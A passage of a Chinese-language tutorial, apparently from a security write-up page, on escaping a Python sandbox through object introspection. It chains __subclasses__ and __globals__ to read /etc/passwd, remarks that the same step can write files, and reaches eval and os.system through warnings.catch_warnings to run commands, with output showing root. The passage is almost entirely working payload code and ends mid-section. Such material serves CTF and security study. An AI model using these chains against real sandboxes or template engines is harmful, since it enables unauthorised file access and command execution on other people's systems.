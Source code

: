 存在的子模块可以通过`.index()`来进行查询，如果存在的话返回索引，直接调用即可：

```
>>> ''.__class__.__mro__[2].__subclasses__().index(file)
40

[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read() 
#将read() 修改为 write() 即为写文件
```

### 命令执行

#### 利用eval 进行命令执行

```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
```

#### 利用warnings.catch_warnings 进行命令执行

查看`warnings.catch_warnings`方法的位置：

```
>>> [].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
  59
```

查看`linecatch`的位置：

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')
  25
```

查找`os`模块的位置：

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.keys().index('os')
  12
```

查找`system`方法的位置（在这里使用`os.open().read()`可以实现一样的效果,步骤一样,不再复述）：

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.keys().index('system')
  144
```

调用`system`方法：

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')
  root
```

直接搜索：

